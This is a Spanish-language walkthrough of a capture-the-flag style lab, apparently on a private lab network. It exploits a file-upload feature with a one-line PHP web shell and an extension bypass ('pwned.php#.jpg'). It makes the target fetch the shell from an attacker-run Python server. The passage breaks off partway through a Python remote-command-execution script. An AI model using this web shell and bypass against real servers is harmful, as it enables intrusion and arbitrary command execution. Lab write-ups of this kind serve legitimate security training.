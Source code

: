 - Intentamos subir un archivo pwned.php malicioso con el siguiente contenido:

 ```js
 <?php echo passthru($_GET['cmd']); ?>
 ```


- Sin embargo como era de esperarse, al intentar subir el archivo php la página se recarga mostrando el siguiente mensaje `"Please select an image"`, dándonos a entender que solo acepta archivos con extensión de imagen.

- Probamos aplicar un bypass de la extensión del archivo explicado en [File Upload - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-file-extensions-checks) cambiando el nombre del mismo a "pwned.php#.jpg".

- Montamos el servidor en python y subimos el archivo en la web.


- Efectivamente el archivo se sube, y si nos damos cuenta en nuestro servidor de python recibimos la siguiente petición:

```js
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.67.58 - - [24/May/2023 12:33:50] "GET /pwned.php HTTP/1.1" 200 -
```


# Python Scripting:

- Como vemos, nos dio una petición con código de estado "200" ya que el archivo "pwned.php" que creamos al principio también estaba en el mismo directorio, si no hubiese estado nos habría dado un "404" por lo que es necesario que ambos archivos estén en el mismo directorio: el archivo `"pwned.php#.jpg"` para bypassear la restricción de extensión en la web y el archivo `"pwned.php"` el cual es el que será subido.

-  Ahora, como la web nos da la direccion en donde se guardó el archivo lo único que tenemos que hacer es acceder a esta dirección para comprobar que el archivo php sea interpretado, sin embargo al acceder después de unos minutos veremos un "404 Not Found", si volvemos a subir el archivo e intentamos acceder a este al instante nos daremos cuenta que si se interpreta y podemos usar el parámetro `"cmd"` que creamos para ejecutar comandos del sistema.

- Esto nos sugiere que el servidor borra casi al instante cualquier archivo que no sea imagen, por lo que deberemos ser rápidos al momento de acceder al archivo php subido.

- Para automatizar este proceso y poder ejecutar comandos del sistema víctima (RCE) usando el archivo php subido directamente desde la terminal, creamos una `script en python`.

- Esta script lo que hace es enviar la petición POST para subir el archivo pwned.php aplicando el bypass que ya hemos visto, y luego realizar una petición GET al servidor usando la dirección que ya conocemos en donde se subirá el archivo php usando el parámetro "cmd" creado para ejecutar el comando que queramos el cual será pasado a la script como argumento.

```bash
$cat exploitRCE.py
```

```python
#!/usr/bin/python3

import requests
import sys

command = sys.argv [1]

main_url = "http://10.10.67.58/cloud/"
data = "url=http://10.6.53.49/pwned.php#.jpg"
headers = {
	"Host" : "10.10.67.58",
	"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0",
	"Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
```
